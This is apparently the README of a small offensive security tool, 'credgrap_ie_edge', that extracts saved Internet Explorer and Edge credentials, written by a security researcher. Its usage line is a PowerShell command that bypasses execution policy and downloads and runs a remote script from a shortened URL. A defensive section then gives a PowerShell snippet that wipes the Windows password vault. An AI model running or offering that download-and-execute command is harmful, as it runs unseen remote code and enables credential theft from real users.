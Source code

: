 # credgrap_ie_edge

Content: Extract stored credentials from Internet Explorer and Edge

Author: Florian Hansemann | @HanseSecure | https://hansesecure.de

Date: 04/2018

## Usage
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2K75g15')"

## Recommendation

### Powershell Solution
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | ForEach {$vault.Remove($_)}

Thanks @nongiach for Info

### Other Solution
Don't save any passwords within your browser and use password safes ;-)

### Additionally Information
I was informed by @jaredhaight that this code was already used in the past. I Didn't know that, but i want to add the link to that post https://www.toddklindt.com/blog/_layouts/mobile/dispform.aspx?List=56f96349-3bb6-4087-94f4-7f95ff4ca81f&ID=606

I think the smaller the code, the bigger the chance to develop something 'old'.

